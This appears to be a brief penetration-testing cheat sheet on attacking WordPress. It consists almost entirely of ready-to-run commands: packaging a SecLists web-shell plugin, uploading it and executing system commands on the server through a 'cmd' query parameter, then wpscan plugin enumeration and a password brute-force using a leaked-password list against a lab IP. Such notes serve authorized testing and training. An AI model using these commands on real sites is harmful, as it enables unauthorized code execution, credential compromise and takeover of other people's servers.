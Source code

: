 # WordPress

Reverse-shell with a malicious plugin:

```
$ cp /usr/share/seclists/Web-Shells/WordPress/plugin-shell.php .
$ zip plugin-shell.zip plugin-shell.php
...Upload plugin-shell.zip and install it (but do not activate)...
$ curl 'http://10.10.13.37/wp-content/plugins/plugin-shell/plugin-shell.php?cmd=whoami'
```




## wpscan

* [https://github.com/wpscanteam/wpscan](https://github.com/wpscanteam/wpscan)
* [https://wpscan.com/profile](https://wpscan.com/profile)

```
$ wpscan --url http://10.10.13.37/wp/ --api-token <API_TOKEN> --force -e ap --plugin-detection aggressive -o wpscan.out
$ wpscan --url http://10.10.13.37/wp/ --api-token <API_TOKEN> --force --passwords /usr/share/seclists/Passwords/darkweb2017-top1000.txt
```
